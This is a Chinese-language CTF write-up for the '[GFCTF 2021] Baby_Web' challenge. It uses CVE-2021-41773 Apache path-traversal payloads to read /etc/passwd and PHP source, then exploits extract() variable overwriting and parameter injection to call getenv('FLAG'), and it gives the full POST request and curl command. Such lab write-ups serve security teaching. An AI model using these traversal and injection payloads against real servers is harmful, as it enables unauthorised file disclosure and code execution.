


# [GFCTF 2021] Baby_Web

## 基本信息

- **题目名称**：[GFCTF 2021] Baby_Web
- **题目链接**：[https://www.nssctf.cn/problem/883](https://www.nssctf.cn/problem/883)
- **考点清单**：CVE-2021-41773、Apache 路径穿越、PHP 源码审计、`array_merge()`、`extract()`、变量覆盖、`call_user_func_array()`
- **工具清单**：dirsearch、curl

## 一、看到什么

使用 dirsearch 对目标进行目录扫描：

```bash
dirsearch -u "http://node4.anna.nssnode.cn:29022"
```


扫描发现 `/cgi-bin` 路径

结合之前接触过的 **CVE-2021-41773 Apache HTTP Server 2.4.49 路径穿越漏洞**，尝试利用该路径进行命令执行，但未能成功，随后转向任意文件读取

测试读取 `/etc/passwd`：

```text
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

成功触发路径穿越，页面提示：

```text
源码藏在上层目录xxx.php.txt里面
```

根据提示读取入口文件源码：

```text
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/var/www/index.php.txt
```

获得 `index.php` 源码：

```php
<h1>Welcome To GFCTF 12th!!</h1>
<?php
error_reporting(0);
define("main","main");
include "Class.php";

$temp = new Temp($_POST);
$temp->display($_GET['filename']);
?>
```

继续读取 `Class.php`：

```text
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/var/www/Class.php.txt
```

获得核心类 `Temp` 的源码

## 二、想到什么解题思路

### 2.1 分析入口参数

入口文件中存在两个外部可控参数：

```php
$temp = new Temp($_POST);
$temp->display($_GET['filename']);
```

- `$_POST`：作为参数传入 `Temp` 构造函数
- `$_GET['filename']`：传入 `display()`，用于控制模板名称

因此，需要分别追踪 POST 参数和 GET 参数在后续代码中的流向

### 2.2 分析模板加载逻辑

`display()` 方法：

```php
public function display($template,$space=''){
    extract($this->date);
    $this->getTempName($template,$space);
    include($this->template);
}
```

`getTempName()` 方法：

```php
public function getTempName($template,$dir){
    if($dir === 'admin'){
        $this->template = str_replace('..','','./template/admin/'.$template);
        if(!is_file($this->template)){
            die("no!!");
        }
    }
    else{
        $this->template = './template/index.html';
    }
}
```

最终通过 `include($this->template)` 加载模板文件

其中，`$this->template` 由 `getTempName()` 控制，而模板路径取决于 `$dir` 的值

只有满足 `$dir === 'admin'`，程序才会进入管理模板分支

继续向上追踪：

```php
$this->getTempName($template,$space);
```

这里的 `$dir` 实际对应 `$space`，而 `display()` 中 `$space` 的默认值为空字符串

因此，需要设法将 `$space` 修改为 `admin`

注意到 `display()` 中存在：

```php
extract($this->date);
```

`extract()` 可以将数组中的键值对提取为当前作用域中的变量

如果能够控制 `$this->date`，就可以通过其中的 `space` 键创建 `$space` 变量，从而覆盖原本的默认值

### 2.3 利用 array_merge() 与 extract() 控制模板分支

构造函数：

```php
private $date = [
    'version'=>'1.0',
    'img'=>'https://www.apache.org/img/asf-estd-1999-logo.jpg'
];

public function __construct($data){
    $this->date = array_merge($this->date,$data);
}
```

其中 `$data` 来自入口文件传入的 `$_POST`

`array_merge()` 对于字符串键采用后面的数组覆盖前面的数组的规则

因此，可以通过 POST 参数覆盖或新增 `$this->date` 中的键值

提交：

```text
space=admin
```

合并后，`$this->date` 中新增：

```php
[
    'version' => '1.0',
    'img' => 'https://www.apache.org/img/asf-estd-1999-logo.jpg',
    'space' => 'admin'
]
```

随后执行：

```php
extract($this->date);
```

便会创建：

```php
$space = 'admin';
```

最终使：

```php
$this->getTempName($template,$space);
```

满足：

```php
$dir === 'admin'
```

成功进入管理模板分支

### 2.4 寻找可利用的模板文件

进入管理模板分支后，模板路径由以下代码拼接：

```php
$this->template = str_replace('..','','./template/admin/'.$template);
```

虽然 `$template` 可以通过 GET 参数 `filename` 控制，但 `str_replace()` 会删除其中的 `..`，因此无法直接利用 `../` 完成路径穿越

不过，在前面的目录扫描中，已经发现 `/template/admin/index.html`

查看该模板文件，发现其中存在：

```php
listdata("action=list module=$mod");
```

这意味着，只要能够加载 `index.html`，就可以进一步控制 `listdata()` 接收到的参数

因此，GET 参数可以指定：

```text
?filename=index.html
```

结合 POST 参数 `space=admin`，即可加载管理模板

接下来需要分析 `listdata()` 方法

### 2.5 分析 listdata() 的参数解析逻辑

核心代码：

```php
public function listdata($_params){
    $system = [
        'db' => '',
        'app' => '',
        'num' => '',
        'sum' => '',
        'form' => '',
        'page' => '',
        'site' => '',
        'flag' => '',
        'not_flag' => '',
        'show_flag' => '',
        'more' => '',
        'catid' => '',
        'field' => '',
        'order' => '',
        'space' => '',
        'table' => '',
        'table_site' => '',
        'total' => '',
        'join' => '',
        'on' => '',
        'action' => '',
        'return' => '',
        'sbpage' => '',
        'module' => '',
        'urlrule' => '',
        'pagesize' => '',
        'pagefile' => '',
    ];

    $param = $where = [];

    $_params = trim($_params);

    $params = explode(' ', $_params);

    if (in_array($params[0], ['list','function'])) {
        $params[0] = 'action='.$params[0];
    }

    foreach ($params as $t) {
        $var = substr($t, 0, strpos($t, '='));
        $val = substr($t, strpos($t, '=') + 1);

        if (!$var) {
            continue;
        }

        if (isset($system[$var])) {
            $system[$var] = $val;
        } else {
            $param[$var] = $val;
        }
    }

    switch ($system['action']) {
        // ...
    }
}
```

模板传入的原始参数为：

```php
$_params = "action=list module=$mod";
```

首先通过 `explode(' ', $_params)` 按照空格拆分字符串

假设 `$mod` 未进行修改，拆分结果类似：

```php
$params = [
    0 => 'action=list',
    1 => 'module=user'
];
```

随后进入 `foreach`，通过 `substr()` 和 `strpos()` 将每个字符串拆分为键值对

```php
$var = substr($t, 0, strpos($t, '='));
$val = substr($t, strpos($t, '=') + 1);
```

再根据 `$var` 是否存在于 `$system` 中，决定将参数存入 `$system` 还是 `$param`

其中：

- `$system`：存放预先定义的系统参数，例如 `action`、`module`
- `$param`：存放其他参数，例如后续需要使用的 `name`、`param0`

正常情况下，最终得到：

```php
$system['action'] = 'list';
$system['module'] = 'user';
```

随后进入：

```php
switch ($system['action'])
```

由于 `action=list`，程序执行：

```php
case 'list':
    return json_encode($this->date);
```

这并不是最终需要的执行分支

目标是让 `$system['action']` 变为 `function`，从而进入函数调用逻辑

### 2.6 利用 mod 参数覆盖 action

回到模板中的参数拼接：

```php
listdata("action=list module=$mod");
```

其中 `$mod` 同样可以通过前面的 `array_merge()` 和 `extract()` 进行控制

如果 POST 参数设置为：

```text
mod=xxx action=function
```

经过变量提取后：

```php
$mod = 'xxx action=function';
```

模板拼接得到：

```text
action=list module=xxx action=function
```

再次经过：

```php
$params = explode(' ', $_params);
```

得到：

```php
$params = [
    0 => 'action=list',
    1 => 'module=xxx',
    2 => 'action=function'
];
```

进入 `foreach` 后，逐个解析：

```php
// 第一个参数
action=list

// 第二个参数
module=xxx

// 第三个参数
action=function
```

由于 `action` 是 `$system` 中已经存在的键，因此第三个参数会再次执行：

```php
$system['action'] = 'function';
```

成功覆盖之前的 `list`，最终进入：

```php
case 'function':
```

> 这里需要注意参数的空格位置
>
> **正确写法：**
>
> ```text
> mod=xxx action=function
> ```
>
> **错误写法：**
>
> ```text
> mod=action=function
> ```
>
> 错误写法经过模板拼接后：
>
> ```text
> action=list module=action=function
> ```
>
> `explode(' ', $_params)` 的结果为：
>
> ```php
> [
>     0 => 'action=list',
>     1 => 'module=action=function'
> ]
> ```
>
> 第二个参数整体被解析为：
>
> ```php
> $system['module'] = 'action=function';
> ```
>
> 无法覆盖 `$system['action']`

### 2.7 分析 function 分支

核心代码：

```php
case 'function':

    if (!isset($param['name'])) {
        return 'hacker!!';
    } elseif (!function_exists($param['name'])) {
        return 'hacker!!';
    }

    $force = $param['force'];

    if (!$force) {
        $p = [];

        foreach ($param as $var => $t) {
            if (strpos($var, 'param') === 0) {
                $n = intval(substr($var, 5));
                $p[$n] = $t;
            }
        }

        if ($p) {
            $rt = call_user_func_array($param['name'], $p);
        } else {
            $rt = call_user_func($param['name']);
        }

        return $rt;
    } else {
        return null;
    }
```

首先，需要满足：

```php
isset($param['name'])
```

因此需要传入 `name` 参数

随后通过：

```php
function_exists($param['name'])
```

检查对应的函数是否存在

这里要求传入的是函数名，而不是函数调用表达式

例如：

```php
function_exists('getenv');       // true
function_exists('getenv(FLAG)'); // false
```

因此，可以选择 PHP 内置函数 `getenv`

接着：

```php
$force = $param['force'];

if (!$force)
```

由于没有传入 `force` 参数，`$force` 为 `null`

而 `!null` 为 `true`，因此可以进入函数调用分支

### 2.8 构造函数参数

继续分析：

```php
$p = [];

foreach ($param as $var => $t) {
    if (strpos($var, 'param') === 0) {
        $n = intval(substr($var, 5));
        $p[$n] = $t;
    }
}
```

这段代码会遍历 `$param`，筛选所有以 `param` 开头的键

例如传入：

```text
param0=FLAG
```

执行：

```php
substr($var, 5)
```

得到：

```text
0
```

再通过：

```php
intval('0')
```

得到整数 `0`

最终：

```php
$p[0] = 'FLAG';
```

构造出：

```php
$p = [
    0 => 'FLAG'
];
```

随后进入：

```php
$rt = call_user_func_array($param['name'], $p);
```

相当于执行：

```php
getenv('FLAG');
```

最终返回环境变量 `FLAG` 的值

## 三、尝试过程和结果记录

### 3.1 第一次尝试：不传入函数参数

构造 POST 参数：

```text
space=admin&mod=xxx action=function name=getenv
```

此时 `$p` 为空，程序进入：

```php
$rt = call_user_func($param['name']);
```

相当于：

```php
getenv();
```

`getenv()` 在不传入参数时返回环境变量数组，因此页面回显：

```text
Array
```

这说明已经成功进入 `function` 分支，并成功调用了 `getenv()`

但还没有获取指定的环境变量



### 3.2 第二次尝试：传入 FLAG 参数

根据前面的参数解析逻辑，需要让 `$p` 中存在：

```php
$p[0] = 'FLAG';
```

因此，在 `name=getenv` 后增加：

```text
param0=FLAG
```

最终 POST 数据：

```text
space=admin&mod=xxx action=function name=getenv param0=FLAG
```

此时：

```php
$param = [
    'name' => 'getenv',
    'param0' => 'FLAG'
];
```

经过 `foreach` 处理：

```php
$p = [
    0 => 'FLAG'
];
```

最终执行：

```php
getenv('FLAG');
```

成功获取环境变量中的 FLAG


### 3.3 最终 Payload

<badge color="success">成功利用</badge>

- bp 抓包：

```http
POST /?filename=index.html HTTP/1.1

space=admin&mod=xxx action=function name=getenv param0=FLAG
```

- curl 发送请求：

```bash
curl -s "http://node4.anna.nssctf.cn:20884/?filename=index.html" \
-d "space=admin&mod=0%20action=function%20name=getenv%20param0=FLAG"
```

其中 `%20` 表示空格，用于分隔 `mod` 中的多个参数



## 四、总结与反思

### 4.1 完整利用链

```text
Apache CVE-2021-41773
        |
        v
读取 index.php.txt、Class.php.txt
        |
        v
分析入口参数 $_POST、$_GET
        |
        v
array_merge() 合并 POST 数据
        |
        v
extract() 提取变量
        |
        +----------------------+
        |                      |
        v                      v
   space=admin          mod=xxx action=function
        |                      |
        v                      v
进入 admin 模板分支      拼接 listdata 参数
        |                      |
        v                      v
加载 index.html          explode() 按空格拆分
        |                      |
        v                      v
调用 listdata()          foreach 解析键值对
        |                      |
        |                      v
        |               覆盖 action=function
        |                      |
        +----------+-----------+
                   |
                   v
             进入 function 分支
                   |
                   v
             name=getenv
                   |
                   v
             param0=FLAG
                   |
                   v
          call_user_func_array()
                   |
                   v
              getenv('FLAG')
                   |
                   v
                获取 FLAG
```

### 4.2 关键知识点

| 知识点 | 利用作用 |
| :--- | :--- |
| CVE-2021-41773 | 通过路径穿越读取 PHP 源码 |
| `array_merge()` | 利用字符串键覆盖和新增 POST 数据 |
| `extract()` | 将数组键值提取为变量，实现变量覆盖 |
| `explode()` | 按空格拆分模板传入的参数字符串 |
| `substr()`、`strpos()` | 将 `key=value` 拆分为键和值 |
| `function_exists()` | 检查指定函数是否存在 |
| `call_user_func()` | 无参数时动态调用指定函数 |
| `call_user_func_array()` | 通过数组传递函数参数 |
| `getenv()` | 获取指定环境变量 |

### 4.3 审计思路

这道题的核心并不是单独利用某个危险函数，而是沿着外部输入的数据流，逐步找到能够影响程序执行逻辑的位置

审计时可以按照以下顺序进行：

1. **定位入口参数**：找到 `$_POST`、`$_GET` 等外部输入
2. **追踪变量流向**：分析参数进入构造函数后如何影响对象属性
3. **寻找变量覆盖**：关注 `array_merge()`、`extract()` 等可能改变变量值的操作
4. **分析函数调用链**：追踪模板加载、参数拼接和函数调用之间的关系
5. **构造最终参数**：根据参数解析规则，确定每个键值应该如何传递

本题中最关键的两次控制：

- 第一次通过 `space=admin` 控制模板加载分支
- 第二次通过 `mod=xxx action=function` 覆盖 `listdata()` 中的 `action` 参数

最终通过 `name=getenv param0=FLAG` 控制动态函数调用及其参数

## 五、补充知识

### 5.1 array_merge()

`array_merge()` 用于合并多个数组

对于不同类型的键，处理方式有所区别：

| 键类型 | 处理规则 |
| :--- | :--- |
| 数字键 | 重新编号，从 0 开始 |
| 字符串键 | 后面的数组覆盖前面的同名键 |

本题利用的是字符串键覆盖和新增：

```php
$a = [
    'version' => '1.0',
    'img' => 'default.jpg'
];

$b = [
    'img' => 'new.jpg',
    'space' => 'admin'
];

$result = array_merge($a, $b);
```

结果：

```php
[
    'version' => '1.0',
    'img' => 'new.jpg',
    'space' => 'admin'
]
```

### 5.2 extract()

`extract()` 用于将关联数组中的键值对转换为当前作用域中的变量

```php
$data = [
    'name' => 'zigyr',
    'space' => 'admin'
];

extract($data);

echo $name;  // zigyr
echo $space; // admin
```

默认使用 `EXTR_OVERWRITE`，当变量名发生冲突时，会覆盖已有变量

因此，不应直接对用户可控的 `$_GET`、`$_POST` 或其派生数组使用默认的 `extract()`

### 5.3 explode()

`explode()` 按指定分隔符拆分字符串：

```php
$str = 'action=list module=user';

$result = explode(' ', $str);
```

结果：

```php
[
    0 => 'action=list',
    1 => 'module=user'
]
```

本题中，`explode(' ', $_params)` 决定了参数的拆分边界，因此空格的位置直接影响后续参数解析

### 5.4 substr() 与 strpos()

`strpos()` 用于查找子字符串首次出现的位置，`substr()` 用于截取字符串

```php
$t = 'name=getenv';

$var = substr($t, 0, strpos($t, '='));
$val = substr($t, strpos($t, '=') + 1);
```

最终得到：

```php
$var = 'name';
$val = 'getenv';
```

本题通过这两个函数将每个 `key=value` 字符串拆分为键和值

### 5.5 function_exists()

`function_exists()` 用于检查指定函数是否已经定义

```php
var_dump(function_exists('getenv'));       // true
var_dump(function_exists('not_exists'));  // false
var_dump(function_exists('getenv(FLAG)')); // false
```

需要注意，`function_exists()` 只检查函数是否存在，并不代表该函数可以安全调用

另外，PHP 8.0 起，`disable_functions` 禁用的函数会从函数表中移除，因此 `function_exists()` 对禁用函数的检查结果与 PHP 7.x 存在差异

### 5.6 call_user_func() 与 call_user_func_array()

`call_user_func()` 用于动态调用指定函数：

```php
call_user_func('getenv', 'FLAG');
```

相当于：

```php
getenv('FLAG');
```

`call_user_func_array()` 则通过数组传递参数：

```php
$args = ['FLAG'];

call_user_func_array('getenv', $args);
```

相当于：

```php
getenv('FLAG');
```

两者的主要区别在于参数传递形式：

| 函数 | 参数传递形式 |
| :--- | :--- |
| `call_user_func()` | 逐个传入参数 |
| `call_user_func_array()` | 通过数组传入参数 |

当函数名和参数数组均可被外部输入控制时，需要重点关注动态函数调用带来的安全风险